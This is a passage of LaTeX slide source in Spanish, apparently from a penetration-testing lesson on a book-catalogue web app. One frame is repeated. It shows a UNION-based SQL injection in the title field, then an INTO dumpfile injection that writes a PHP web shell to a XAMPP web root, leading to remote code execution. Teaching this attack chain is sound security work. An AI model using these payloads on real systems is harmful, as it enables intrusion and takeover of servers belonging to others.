        
\includegraphics[width=.7\textwidth]{fragments/pentest/pen1.png}
    \end{figure}
    \texttt{Libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, 'queries' as numeroCopias; -- "}
    \note[item]{Y claro, con un union bien hecho llegó y pasó}
\end{frame}


\begin{frame}{... }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.7\textwidth]{fragments/pentest/pen1.png}
    \end{figure}
    \texttt{Libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, 'queries' as numeroCopias; -- "}
    \note[item]{Y claro, con un union bien hecho llegó y pasó}
\end{frame}


\begin{frame}{Inyectamos }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.8\textwidth]{fragments/pentest/pen4.png}
    \end{figure}
    \texttt{Libro de prueba 3' union SELECT 1,2,3,4, '\\n<?php echo shell\_exec(\$\_GET['cmd']); ?>' INTO dumpfile 'C:/xampp/htdocs/enwi/test.php' -- }
    \note[item]{Luego inyectamos un archivo}
\end{frame}



\begin{frame}{RCE }
    \centering
    
    \begin{figure}
        \centering
